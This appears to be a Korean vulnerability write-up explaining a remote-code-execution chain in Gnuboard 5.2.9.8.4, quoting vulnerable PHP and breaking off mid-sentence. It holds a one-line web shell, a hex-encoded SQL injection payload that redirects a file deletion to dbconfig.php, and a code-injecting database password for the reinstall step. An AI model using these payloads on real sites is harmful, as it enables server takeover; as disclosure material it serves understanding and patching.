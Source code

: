 # 그누보드 5.2.9.8.4 RCE
>해당 취약점은 그누보드 5.2.9.8.4 에서 터지는 SQL Injection을 이용한 RCE 취약점입니다.
>
## 취약점 설명
>그누보드 /bbs/move_update.php 29~30,164 라인
<pre><code>$move_bo_table = $_POST['chk_bo_table'][$i];
$move_write_table = $g5['write_prefix'] . $move_bo_table;</code></pre>
>위의 코드를 보면 별다른 검증없이 "$_POST['chk_bo_table'][$i]" 변수의 값을 "$move_write_table" 변수에 넣어주는것을 알 수 있습니다.
<pre><code>sql_query(" update $move_write_table set wr_parent = '$save_parent' where wr_id = '$insert_id' ");</code></pre>
>그리고 위와 같이 sql_query함수를 이용하여 update 하는 SQL을 날려주는데 이때 테이블 clause에서 SQL Injection이 가능하고 update는 다른 테이블 참조 등이 가능합니다.

<pre><code>        $sql = " insert into {$g5['board_file_table']}
                    set bo_table = '{$bo_table}',
                         wr_id = '{$wr_id}',
                         bf_no = '{$i}',
                         bf_source = '{$upload[$i]['source']}',
                         bf_file = '{$upload[$i]['file']}',
                         bf_content = '{$bf_content[$i]}',
                         bf_download = 0,
                         bf_filesize = '{$upload[$i]['filesize']}',
                         bf_width = '{$upload[$i]['image']['0']}',
                         bf_height = '{$upload[$i]['image']['1']}',
                         bf_type = '{$upload[$i]['image']['2']}',
                         bf_datetime = '".G5_TIME_YMDHIS."' ";
        sql_query($sql);
    }</code></pre>

>그누보드에서 파일을 업로드하는 기능이 있는데 이 파일을 업로드 하면 위와 같이 "g5_board_file" 라는 테이블에 파일 명, 게시판 명, 게시글 번호 등등이 Insert 됩니다.

>이때 간단한 웹 쉘 코드인 "<?php system($_GET['cmd']); ?>" 등의 코드를 작성하여 업로드 합니다.

<pre><code>        if (!delete_point($row['mb_id'], $bo_table, $row['wr_id'], '쓰기'))
            insert_point($row['mb_id'], $board['bo_write_point'] * (-1), "{$board['bo_subject']} {$row['wr_id']} 글삭제");

        // 업로드된 파일이 있다면 파일삭제
        $sql2 = " select * from {$g5['board_file_table']} where bo_table = '$bo_table' and wr_id = '{$row['wr_id']}' ";
        $result2 = sql_query($sql2);
        while ($row2 = sql_fetch_array($result2)) {
            @unlink(G5_DATA_PATH.'/file/'.$bo_table.'/'.$row2['bf_file']);
            // 썸네일삭제
            if(preg_match("/\.({$config['cf_image_extension']})$/i", $row2['bf_file'])) {
                delete_board_thumbnail($bo_table, $row2['bf_file']);
            }
        }

        // 에디터 썸네일 삭제
        delete_editor_thumbnail($row['wr_content']);</code></pre>

>위는 당시와 비슷한 버전의 delete.php인데 위에서 insert 한 "g5_board_file" 테이블의 "bf_file" 컬럼의 값을 select하여 unlink 하는것을 알 수 있습니다.
>이를 위의 SQL Injection을 이용하여 다음과 같은 페이로드를 이용하여 해당 게시글의 bf_file 컬럼의 값을 변경해주었습니다

>"notice as a inner join `g5_board_file` as b set b.bf_file=0x2e2e2f646174612f6462636f6e6669672e706870 where wr_id=1 and bo_table=0x6e6f74696365#"

<pre><code>$mysql_host  = $_POST['mysql_host'];
$mysql_user  = $_POST['mysql_user'];
$mysql_pass  = $_POST['mysql_pass'];
$mysql_db    = $_POST['mysql_db'];
$table_prefix= $_POST['table_prefix'];
$admin_id    = $_POST['admin_id'];
$admin_pass  = $_POST['admin_pass'];
$admin_name  = $_POST['admin_name'];
$admin_email = $_POST['admin_email'];

$dblink = @mysql_connect($mysql_host, $mysql_user, $mysql_pass);</code></pre>

<pre><code>$file = '../'.G5_DATA_DIR.'/'.G5_DBCONFIG_FILE;
$f = @fopen($file, 'a');
fwrite($f, "<?php\n");
fwrite($f, "if (!defined('_GNUBOARD_')) exit;\n");
fwrite($f, "define('G5_MYSQL_HOST', '{$mysql_host}');\n");
fwrite($f, "define('G5_MYSQL_USER', '{$mysql_user}');\n");
fwrite($f, "define('G5_MYSQL_PASSWORD', '{$mysql_pass}');\n");
fwrite($f, "define('G5_MYSQL_DB', '{$mysql_db}');\n");
fwrite($f, "define('G5_MYSQL_SET_MODE', {$mysql_set_mode});\n\n");
fwrite($f, "define('G5_TABLE_PREFIX', '{$table_prefix}');\n\n");</code></pre>

> "dbconfig.php" 파일이 삭제되면 그누보드에선 install이 되지 않았다고 판단하여 위와 같은 install_db.php를 이용하여 다시 dbconfig.php 파일을 write해줍니다.
> 이 때 위와 같이 php코드를 패스워드나 db같은 부분에 본인의 mysql 서버에 " ');include($_GET['foo']);// "와 같은 DB or PASSWORD를 셋팅해주고 외부접속을 허용하여 "mysql_connect" 함수가 정상적으로 접근할 수 있게 맞춰줍니다.

>이 후 dbconfig.php 파일은 모든 파일을 

>그누보드에서는 각각의 게시판마다 g5_board 테이블에 있는 bo_include_head,bo_include_head 컬럼들의 값을 각각 상단 파일,하단 파일로 include합니다
